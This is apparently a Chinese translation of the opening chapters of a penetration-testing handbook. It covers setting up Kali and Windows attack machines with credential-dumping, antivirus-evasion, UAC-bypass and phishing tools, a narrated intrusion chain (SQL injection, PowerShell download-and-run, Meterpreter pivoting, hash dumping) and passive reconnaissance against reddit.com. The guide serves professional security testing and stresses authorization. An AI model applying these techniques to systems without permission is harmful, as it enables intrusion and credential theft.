# 黑客攻略书：渗透测试实用指南


我并非一开始就想着要写一本关于渗透测试的书，但我不知不觉踏上了这条路。起因是我开始记录渗透测试、会议、安全文章、研究以及生活经验中的笔记。随着笔记越积越多，我找到了执行重复性任务的更好方法，并开始理解什么有效、什么无效。

当我开始教学、在会议上演讲并参与安全社区活动时，我感到行业可以从我的经验教训中受益。这本书就是这些经验的集合。我想指出的一个重要事情是，我不是专业作家，而是以爱好形式写了这本书。你可能有自己偏好的工具、技术和战术，但这正是该领域的魅力所在。同一个问题往往有许多不同的答案，我邀请你探索它们所有。我不会提供每种攻击类型的分步演练；因此，持续研究、尝试不同方法、并找出适合你的方法是你的工作。

本书假设你具备一些常见安全工具的知识，使用过一点 `Metasploit`，并对安全行业有所了解。你不必是渗透测试人员也能充分利用本书；但如果你对安全充满热情，会有所帮助。

我写这本书的目的是创建一种直截了当且实用的渗透测试方法。有许多安全书籍讨论每种工具和每种漏洞，其中只有少部分攻击似乎与普通渗透测试人员相关。我希望本书能帮助你提升安全知识，更好地理解如何保护你自己的环境。

全书中，我将深入探讨我认为属于现实世界且为典型渗透测试工作一部分的技术和流程。你不总能完全照搬这些技术，但它们应能为你提供一个良好的起点基准。

最后，我想以一些我发现有用的建议作为结尾。要成为一名更好的安全专业人员，最重要的事情包括：

1.  学习、研究并理解漏洞和常见安全弱点
2.  在受控环境中练习利用和修复漏洞
3.  在真实环境中执行测试
4.  向安全社区教学和演示

这些要点代表了一个持续的生命周期，将帮助你在技术成熟度上不断进化。再次感谢阅读本书，希望你阅读时的快乐能如我写作时一般。


你在昏暗的房间里伏案敲击键盘，感到沮丧，可能已经喝了太多能量饮料，于是拿起手机查看。你从刺眼的 LCD 屏幕眩光中眯眼勉强看清时间是凌晨 3:00。“太棒了”，你自言自语。距离测试结束还有 5 个小时，你却一个漏洞利用或关键漏洞都没找到。扫描无果，没人会接受一份堆满 Secure Flag Cookie 问题的报告。

你需要那个“绝地求生”般的关键一击，于是拿起《The Hacker Playbook》（黑客战术手册），翻到“The Throw - Manual Web Application Findings”（长传——手工 Web 应用发现）章节。浏览中，你发现漏测了 Cookie 的 SQL 注入攻击。你心想：“这是简单的 Web 扫描器会遗漏的东西。”你使用 Cookie 开关启动 `SQLMap` 并运行。几分钟后，屏幕开始剧烈滚动并停在：

Web server operating system: Windows 2008

web application technology: [ASP.net](http://ASP.net), Microsoft IIS 7.5

back and DBMS: Microsoft SQL Server 2008

完美。你用 `SQLMap` 进入命令 Shell，但遗憾的是发现没有管理权限。“下一步合乎逻辑的步骤是什么……？真希望我有后渗透利用的妙招”，你心想。然后你想起这本书能帮上忙。你翻到“The Lateral Pass - Moving through the Network”（横向传球——横向移动）章节上下阅读。这里有许多不同选项，但让我们看看这台主机是否加入了域，以及是否使用组策略首选项设置了本地管理员。

利用 `IEX` PowerShell 命令，你强制服务器下载 `PowerSploit` 的 GPP 脚本，执行它，并将结果存储到文件中。看起来它在未触发杀毒软件的情况下成功运行了！你读取脚本导出的文件内容，果不其然，看到了本地管理员密码。

剩下的就是历史了……你用管理员权限生成 `Meterpreter` Shell，通过该主机跳板，并使用 `SMBexec` 从域控制器拉取所有用户哈希。

当然，这只是一个非常快速且高层级的示例，但这正是我尝试编排本书的方式。本书共有 10 个不同章节，按橄榄球战术手册布局。这 10 个章节是：


# 目录概览

*   **Pregame**：主要介绍如何设置攻击机器以及全书将使用的工具。
*   **Before the Snap**：在运行任何攻击前，需要扫描环境并了解目标情况。深入讲解发现与智能扫描。
*   **The Drive**：利用扫描识别出的漏洞攻击目标系统。这是实战操作的开始。
*   **The Throw**：有时需要发挥创造力寻找暴露目标。讲解如何发现和利用手动 Web 应用漏洞。
*   **The Lateral Pass**：攻破系统后，如何在网络中横向移动。
*   **The Screen**：欺骗敌人的战术。讲解社会工程学战术。
*   **The Onside Kick**：需要物理接近的攻击。描述需要物理访问权限的攻击。
*   **The Quarterback Sneak**：应对小障碍的技巧。描述如何绕过杀毒软件（AV）。
*   **Special Teams**：密码破解、漏洞利用及技巧。
*   **Post-Game Analysis**：报告发现的问题。

## 正确的心态

在深入探讨如何攻击不同网络、穿越安全控制和绕过 AV 之前，我希望你建立正确的心态。想象你受聘为渗透测试员，测试一家财富 500 强公司的整体安全性。从哪里开始？你的基准安全测试是什么？如何为所有客户提供一致的测试，何时偏离基准？这就是我传达本书信息的方式。


> **声明**：本书仅代表我个人的想法和经验，与我过往或当前的雇主及书外事务无关。如有主题或观点表述不当或遗漏致谢，请告知，我将在书籍网站更新：[www.thehackerplaybook.com](http://www.thehackerplaybook.com)。

## 学习建议

学习时的一个重要建议：尝试用另一种脚本语言重写工具。我通常用 `python` 重写常用工具和新漏洞利用代码。这能避免工具依赖，并让你更透彻地理解漏洞成因。

最后，重申熟能生巧。常说精通一项技能需 10,000 小时，但我认为没人能完全精通渗透测试，不过足够的练习能让渗透测试成为本能。


## 法律与安全警示

正如其他道德黑客书籍所述，**切勿测试未授权系统**。记住那个参与匿名攻击 1 分钟被罚 183,000 美元的案例^(1)？务必确保所有操作有书面记录，并获得公司、ISP、共享主机提供商或可能受影响方的完全授权。

请在测试环境中充分测试所有扫描和攻击，再用于生产环境。任何测试都有导致系统瘫痪或严重问题的风险。

最后，本书不包含所有攻击类型，书中知识不一定代表最佳或最高效方法。这些是我积累并验证有效的技巧。如发现明显错误或有更好测试方法，欢迎告知。


# 第一章：Pregame —— 攻击系统配置与方法论

本章将直接深入讲解如何配置攻击系统及我使用的方法论。测试最重要的方面之一是拥有可重复的流程。为此，你需要标准的基准系统、工具和流程。我将讲解如何配置测试平台及安装本书使用的所有额外工具。按以下步骤操作，你应该能运行后续章节提供的大多数示例和演示。让我们进入状态，为实战做准备。


## 基础平台选择

我所有的渗透测试都喜欢配置两台不同的主机（一台 `Windows`，一台 `Linux`）。如果你习惯其他基础平台，请自行构建。核心主题是创建一个贯穿测试始终的基准系统。配置好主机后，我会在干净配置状态下对虚拟机做快照。这样未来测试只需恢复基准镜像、打补丁、更新工具、添加额外工具即可。相信我，这招救命。我数不清过去有多少渗透测试因花费过多时间安装本该已有的工具而延误。


## 硬件要求

下载虚拟机（VM）和安装工具前，需确保电脑性能足够。以下仅为建议，请自行判断。基础系统运行 `Linux`、`Windows` 或 `OS X` 均可，只需保持基础系统无恶意软件感染。

基本硬件要求：

> 部分要求可能偏高，但运行多个 VM 会快速消耗资源。

*   至少 8 GB 内存的笔记本
*   500 GB 硬盘空间，首选固态硬盘
*   i7 Intel 四核处理器
*   `VMware Workstations/Fusion/Player` 或 `Virtual Box`
*   外置 USB 无线网卡 —— 我目前使用 `Alfa AWUS051NH`

书中后续讨论的可选硬件：

*   用于密码破解的 GPU 显卡，需安装在工作站上。
*   光盘或 U 盘（用于社会工程学）
*   `Dropbox` - `Odroid U2`


## 推荐商业工具许可证

如果你打算深耕此领域，强烈建议购买以下工具许可证，或让公司采购（价格昂贵）。虽非必须，但能极大提升效率，尤其是价格极高的 Web 应用扫描器。未列出所有扫描器，仅列出我用过且成功的。

寻找工具对比可阅读 `HackMiami Web Application Scanner 2013 PwnOff` 白皮书（[`hackmiami.org/whitepapers/HackMiami2013PwnOff.pdf`](http://hackmiami.org/whitepapers/HackMiami2013PwnOff.pdf)）及 `sectooladdict.blogspot.com` 旧文（[`sectooladdict.blogspot.com/2012/07/2012-web-application-scanner-benchmark.html`](http://sectooladdict.blogspot.com/2012/07/2012-web-application-scanner-benchmark.html)）。

*   **Nexpose/Nessus 漏洞扫描器（强烈推荐）**
    *   Nexpose：[`www.rapid7.com/products/nexpose`](http://www.rapid7.com/products/nexpose)
    *   Nessus：[`www.tenable.com/products/nessus`](http://www.tenable.com/products/nessus)
    *   两者效果均佳，但个人许可证价格差异显著。通常 `Nessus` 对个人测试员更便宜。两者均为行业标准漏洞扫描器。


# 工具与环境配置

### 推荐工具

#### Burp Suite
[`portswigger.net/burp/`](http://portswigger.net/burp/) - Web 应用扫描器和手动 Web 应用测试工具（强烈推荐）

- 这是必买工具。该工具有许多不同的优势且处于积极维护状态。价格约为 $300。如果买不起 Burp，可以使用 OWASP ZAP 扫描器 [`www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project`](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project)，它拥有许多相同功能且也在积极维护。本书所有示例均使用 Burp Suite Pro，因为我发现它是极其有效的工具。

#### 自动化 Web 应用扫描器
（我曾在以下两款工具中取得不错成效。请根据预算选择适合的工具）。本书不讨论这些 Web 应用扫描器，因为它们是相当简单的“点击即扫”工具，但我推荐它们用于专业 Web 应用测试或定期企业级 Web 评估。

- **IBM AppScan**: [`www-03.ibm.com/software/products/en/appscan`](http://www-03.ibm.com/software/products/en/appscan)
- **HP Web Inspect**: [`www8.hp.com/us/en/software-solutions/software.html?compURI=1341991`](http://www8.hp.com/us/en/software-solutions/software.html?compURI=1341991)


Kali 是一个 Linux 渗透测试发行版（简称“distro”），包含大量渗透测试常用工具。这在安全社区可能被视为当前标准，许多人基于此框架构建工具。我同意 Kali 确实包含我通常使用的许多工具，但我添加了一些自己的工具。某些二进制文件（如 *Windows Credential Editor* (WCE)）可能已在 Kali 发行版中，但我倾向于下载最新版本。我还会尝试将修改过的用于绕过 AV 的二进制文件放在单独文件夹中，以免被覆盖。

还有许多其他优秀的发行版。推荐查看 **Pentoo** ([`www.pentoo.ch/`](http://www.pentoo.ch/))。现在开始深入了解 Kali 发行版。

#### Kali 之外的高层工具列表

- Discover Scripts（原 Backtrack Scripts）
- SMBexec
- Veil
- WCE
- Mimikatz
- 密码列表
- Burp
- PeepingTom
- gnmap.pl
- PowerSploit
- Responder
- BeEF
- Firefox
  - Web Developer Add-on
  - Tamper Data
  - Foxy Proxy
  - User Agent Switcher

### Kali 配置

攻击主机有多种设置方式，但我希望你能复现本书所有示例。继续之前，请尝试按以下设置配置主机。请记住工具会定期更新，你可能需要对这些设置或配置进行微调。

可从 [`www.kali.org/downloads/`](http://www.kali.org/downloads/) 下载 Kali 发行版。强烈建议下载 VMware 镜像 ([`www.offensive-security.com/kali-llnux-vmware-arm-image-download/`](http://www.offensive-security.com/kali-llnux-vmware-arm-image-download/)) 并下载 VMPlayer/VirtualBox。文件为 gz 压缩且 tar 归档，请务必先解压再加载 vmx 文件。

#### Kali VM 启动后：

1.  使用用户名 `root` 和默认密码 `toor` 登录
2.  打开终端
3.  **修改密码**
    - 务必修改 root 密码，尤其是启用 SSH 服务时。
    - 执行 `passwd`
4.  **更新镜像**
    - `apt-get update`
    - `apt-get dist-upgrade`
5.  **配置 Metasploit 数据库**
    - 这是为了配置 Metasploit 使用数据库存储结果和索引模块。
    - `service postgresql start`
    - `service metasploit start`
6.  **可选：启用 Metasploit 日志**
    - 列为可选是因为日志会变得很大，但你可以记录 Metasploit 命令行界面 (CLI) 的每条命令和结果。这对于批量攻击/查询或客户要求日志时非常有用。
    - `echo "spool /root/msf_console.log" > /root/.msf4/msfconsole.rc`
    - 日志将存储在 `/root/msf_console.log`
7.  **安装 Discover Scripts（原 Backtrack-scripts）**
    - Discover 用于被动枚举
    - `cd /opt/`
    - `git clone https://github.com/leebaird/discover.git`
    - `cd discover/`
    - `./setup.sh`
8.  **安装 Smbexec**
    - Smbexec 用于从域控制器获取哈希和反向 Shell
    - `cd /opt/`
    - `git clone https://github.com/brav0hax/smbexec.git`
    - `cd smbexec`
    - `./install.sh`
      - 选择选项 1
    - 安装至 `/opt`
    - `./install.sh`
      - 选择选项 4
9.  **安装 Veil**
    - Veil 用于创建基于 Python 的 Meterpreter 可执行文件
    - `cd /opt/`
    - `git clone https://github.com/veil-evasion/Veil.git`
    - `cd ./Veil/setup`
    - `./setup.sh`
10. **下载 WCE**
    - Windows Credential Editor (WCE) 用于从内存提取密码
    - `cd ~/Desktop`
    - `wget http://www.ampliasecurity.com/research/wce_v1_41beta_universal.zip`
    - `unzip -d ./wce wce_v1_41beta_universal.zip`
11. **下载 Mimikatz**
    - Mimikatz 用于从内存提取密码
    - `cd ~/Desktop`
    - `wget http://blog.gentilkiwi.com/downloads/mimikatz_trunk.zip`
    - `unzip -d ./mimikatz mimikatz_trunk.zip`
12. **保存自定义密码列表**
    - 用于破解哈希的密码列表
    - `cd ~/Desktop`
    - `mkdir ./password_list && cd ./password_list`
    - 通过浏览器下载大型密码列表并保存至 `./password_list`: [`mega.co.nz/#!3VZiEJ4L!TitrTiiwygI2I_7V2bRWBH6rOqlcJ14tSjss2qR5dqo`](https://mega.co.nz/#!3VZiEJ4L!TitrTiiwygI2I_7V2bRWBH6rOqlcJ14tSjss2qR5dqo)
    - `gzip -d crackstation-human-only.txt.gz`
    - `wget http://downloads.skullsecurity.org/passwords/rockyou.txt.bz2`
    - `bzip2 -d rockyou.txt.bz2`
13. `cd ~/Desktop`
14. **下载 Burp**: [`portswigger.net/burp/proxy.html`](http://portswigger.net/burp/proxy.html)。强烈建议购买专业版，其 $300 价格物超所值。
15. **设置 PeepingTom**
    - PeepingTom 用于网页快照
    - `cd /opt/`
    - `git clone https://bitbucket.org/LaNMaSteR53/peepingtom.git`
    - `cd ./peepingtom/`
    - `wget https://gist.github.com/nopslider/5984316/raw/423b02c53d225fe8dfb4e2df9a20bc800cc78e2c/gnmap.pl`
    - `wget https://phantomjs.googlecode.com/files/phantomjs-1.9.2-linux-i686.tar.bz2`
    - `tar xvjf phantomjs-1.9.2-linux-i686.tar.bz2`
    - `cp ./phantomjs-1.9.2-linux-i686/bin/phantomjs .`
16. **添加 Nmap 脚本**
    - `banner-plus.nse` 用于更快扫描和更智能识别
    - `cd /usr/share/nmap/scripts/`
    - `wget https://raw.github.com/hdm/scan-tools/master/nse/banner-plus.nse`
17. **安装 PowerSploit**
    - PowerSploit 是用于后渗透的 PowerShell 脚本
    - `cd /opt/`


#### c. git clone `https://github.com/mattifestation/PowerSploit.git`

#### d. cd PowerSploit

#### e. wget `https://raw.github.com/obscuresec/random/master/StartListener.py`

#### f. wget `https://raw.github.com/darkoperator/powershell_scripts/master/ps_encoder.py`

### 18. 安装 Responder

#### a. Responder 将用于获取 NTLM 质询/响应哈希

#### b. cd /opt/

#### c. git clone `https://github.com/SpiderLabs/Responder.git`

### 19. 安装社会工程学工具包（Kali 上无需重新安装）(SET)

#### a. SET 将用于社会工程学攻击活动

#### b. cd /opt/

#### c. git clone `https://github.com/trustedsec/social-engineer-toolkit/set/`

#### d. cd set

#### e. ./setup.py install

### 20. 安装 bypassuac

#### a. 将用于在后渗透阶段绕过 UAC

#### b. cd /opt/

#### c. wget `http://www.secmaniac.com/files/bypassuac.zip`

#### d. unzip bypassuac.zip

#### e. cp bypassuac/bypassuac.rb /opt/metasploit/apps/pro/msf3/scripts/meterpreter/

#### f. mv bypassuac/uac/ /opt/metasploit/apps/pro/msf3/data/exploits/

### 21. 安装 BeEF

#### a. BeEF 将用作跨站脚本攻击框架

#### b. apt-get install beef-xss

### 22. 安装模糊测试列表 (SecLists)

#### a. 这些是配合 Burp 用于模糊测试参数的脚本

#### b. cd /opt/

#### c. git clone `https://github.com/danielmiessler/SecLists.git`

### 23. 安装 Firefox 附加组件

#### a. Web Developer Add-on: `https://addons.mozilla.org/en-US/firefox/addon/web-developer/`

#### b. Tamper Data: `https://addons.mozilla.org/en-US/firefox/addon/tamper-data/`

#### c. Foxy Proxy: `https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/`

#### d. User Agent Switcher: `https://addons.mozilla.org/en-US/firefox/addon/user-agent-switcher/`


我强烈建议你也配置一个 Windows 7 虚拟机。这是因为我在许多测试中都遇到过应用程序需要 Internet Explorer，或者像 `Cain and Abel` 这样的工具只能在一种操作系统上运行的情况。请记住，所有的 PowerShell 攻击都将要求你在 Windows 主机上运行命令。我想强调的观点是：时刻保持准备，拥有多个可用的操作系统将为你节省大量时间和麻烦。

## Windows 高级工具列表补充：

*   HxD (十六进制编辑器)
*   Evade (用于杀毒软件绕过)
*   Hyperion (用于杀毒软件绕过)
*   Metasploit
*   Nexpose/Nessus
*   Nmap
*   oclHashcat
*   Evil Foca
*   `Cain and Abel`
*   Burp Suite Pro
*   Nishang
*   PowerSploit
*   Firefox (附加组件)
    *   Web Developer Add-on
    *   Tamper Data
    *   Foxy Proxy
    *   User Agent Switcher

## 设置 Windows

建立 Windows 通用测试平台应当是为了补充你的 Kali Linux 主机。请记住修改主机名，如果不需要 NetBios 则将其禁用，并尽可能加固这些主机。你最不想要的就是在测试过程中被攻陷。

在 Windows 上我没有什么特别的设置，但通常我会安装以下内容。

1.  HxD `http://mh-nexus.de/en/hxd/`
2.  Evade `https://www.securepla.net/antivirus-now-you-see-me-now-you-dont/`
3.  Hyperion `http://www.nullsecurity.net/tools/binary.html`
    ### a. 下载/安装 Windows 编译器 `http://sourceforge.net/projects/mingw/`
    ### b. 在解压后的 Hyperion 文件夹中运行 `make`，你应该就能得到二进制文件。
4.  下载并安装 Metasploit `http://www.Metasploit.com/`
5.  下载并安装 Nessus 或 Nexpose
    ### a. 如果你是自掏腰包购买软件，可能应该考虑 Nessus，因为它便宜得多，但两者都很好用
6.  下载并安装 nmap `http://nmap.org/download.html`
7.  下载并安装 oclHashcat `http://hashcat.net/oclhashcat/#downloadlatest`
8.  下载并安装 evil foca `http://www.informatica64.com/evilfoca/`
9.  下载并安装 `Cain and Abel` `http://www.oxid.it/cain.html`
10. BURP `http://portswigger.net/burp/download.html`
11. 下载并解压 Nishang: `https://code.google.com/p/nishang/downloads/list`
12. 下载并解压 PowerSploit: `https://github.com/mat-tifestation/PowerSploit/archive/master.zip`
13. 安装 Firefox 附加组件
    ### a. Web Developer Add-on: `https://addons.mozilla.org/en-US/firefox/addon/web-developer/`
    ### b. Tamper Data: `https://addons.mozilla.org/en-US/firefox/addon/tamper-data/`
    ### c. Foxy Proxy: `https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/`
    ### d. User Agent Switcher: `https://addons.mozilla.org/en-US/firefox/addon/user-agent-switcher/`


本章旨在帮助你构建一个标准的测试平台。工具总是在变化，因此保持测试平台更新和打补丁非常重要。希望这些信息足以让你入门，我已包含本书中使用的所有工具。如果你觉得我遗漏了任何关键工具，请随时在 `http://www.thehackerplaybook.com` 留言。对你的工作虚拟机进行一次完整的干净快照，让我们开始发现和攻击网络吧。


在运行任何战术之前，你必须了解并分析你的对手。研究目标的弱点并理解环境将带来巨大的回报。本章将从一个与普通渗透测试书籍略有不同的角度来探讨扫描，应被视为对你当前扫描流程的补充，而非替代。

无论你是经验丰富的渗透测试员还是刚入行的新手，扫描可能已经被讨论过无数次了。我不会详细比较所有不同的网络扫描器、漏洞扫描器、SNMP 扫描器等，但我会尝试给你提供最高效的扫描流程。本节将分为外部扫描、内部扫描和 Web 应用程序扫描。


## 被动发现

这通常是我开始的第一步。客户联系我进行测试，我可能只会收到一个公网 IP 范围，或者在完全的黑盒测试中，你可能对目标一无所知。这是你发挥创造力和经验、尝试挖掘目标所有信息的时候。在接下来的章节中，我们将使用被动和主动的工具及技术，以识别目标服务器、服务甚至人员的一切信息。


从**被动发现**开始，它将在从未接触目标主机的情况下，搜索关于目标、网络、客户端等的信息。这非常棒，因为它利用互联网资源，而从未以任何可疑活动惊动目标。你也可以在约定测试前运行所有这些查找，以节省大量时间。有时通过一点 Google Hacking 和 Shodan ([`www.shodanhq.com/`](http://www.shodanhq.com/))，你甚至能在开始测试前就实际发现漏洞，但那是另一个故事了。

浏览 Kali，有许多不同的工具用于被动网络/信息发现，但目的依然是使其尽可能简单直接。你可能会发现需要花费额外时间进行被动发现，但这里是快速上手的简单方法。看下面的图片，我们可以看到在 Kali 的开源情报 (OSINT) 文件夹中有各种工具。逐一学习这些工具并掌握其运行方法会浪费大量不必要的时间。幸运的是，有人已将这些工具整合到一个单一工具中。



**图 1 - Kali 中的 OSINT 工具**


**(以前称为 Backtrack Scripts) (Kali Linux)**

为解决此问题，开发了一个发现框架，用于快速高效地识别关于公司或网络的被动信息。该框架通过一个名为 `Discover-scripts`（以前称为 `Backtrack-scripts`）的工具实现 ([`github.com/leebaird/discover`](https://github.com/leebaird/discover))，作者是 Lee Baird。该工具在一个工具中自动化了许多不同的搜索。例如，它可以搜索该组织内的人员或所有常见收集网站（如 LinkedIn）上的域名，使用常见域名工具（如 `goofile`、`goog-mail`、`theHarvester`、`search_email_collector`、`mydnstools`）并链接到其他第三方工具以执行额外搜索。让我们开始吧。



**图 2 - Discover 侦察工具**

### 如何运行被动发现

1.  `cd /opt/discover`
2.  `./discover.sh`
3.  输入 `1` 选择 Domain（域名）
4.  输入 `1` 选择 Passive（被动）
5.  输入要搜索的域名
    a.  在此示例中为：`reddit.com`
6.  完成后输入：
    a.  `firefox /root/[domain]/index.htm`

在示例中，我对一个我喜欢的网站进行了上述被动查询。请记住，这是一个完全被动的请求，绝不代表在识别 Reddit 的任何漏洞，而是说明那里有哪些公开信息。

我选择了父域 `reddit.com`，以下示例是结果。扫描完成后，将在 root 文件夹下创建一个包含所有扫描结果的 `index.htm` 文件。这是我所发现的用于此类侦察的最快、最全面的工具之一。该工具将基于域名、IP、文件、邮件、WHOIS 信息、一些 Google Dorks 等查找信息。

查看 Reddit 域名的结果，html 页面以易读的方式布局。顶部横幅栏根据收集到的信息，在每个类别下都有下拉菜单。让我们先看看所有子域名。这些在社会工程学章节的“双生攻击”中将非常重要。我收集了大量已识别的子域名和 IP，它们可能在测试范围内。



**图 3 - Reddit 的子域名**

从下拉菜单可以看到，它还会收集托管在其服务器上的文件（Google Dork 搜索）。在下面的示例中，我们查看通过公开来源识别出的所有 PDF 文件。我不记得有多少次使用 Google Dorks 为某家公司找到敏感文档。它们会将旧的遗留文件因配置错误托管在本不应公开的服务器上，静静躺在那里被扫描器抓取。



**图 4 - 被动发现的 PDF 和邮箱**

查看其他一些结果，我们可以快速看到在 `reddit.com` 域名下收集到的所有邮箱联系人（上图）。我通常用这些来寻找更多联系人或用于鱼叉式网络钓鱼活动。在运行此工具的几秒钟内，我们已经收集了大量关于这家公司的信息。

最后，我也想展示最终报告。该报告将包含所有发现，并以易读的方式呈现。下图所示的部分报告包含你所选域名的所有拼写错误变体及其所有者。这些类型的发现信息稍后将变得非常重要。

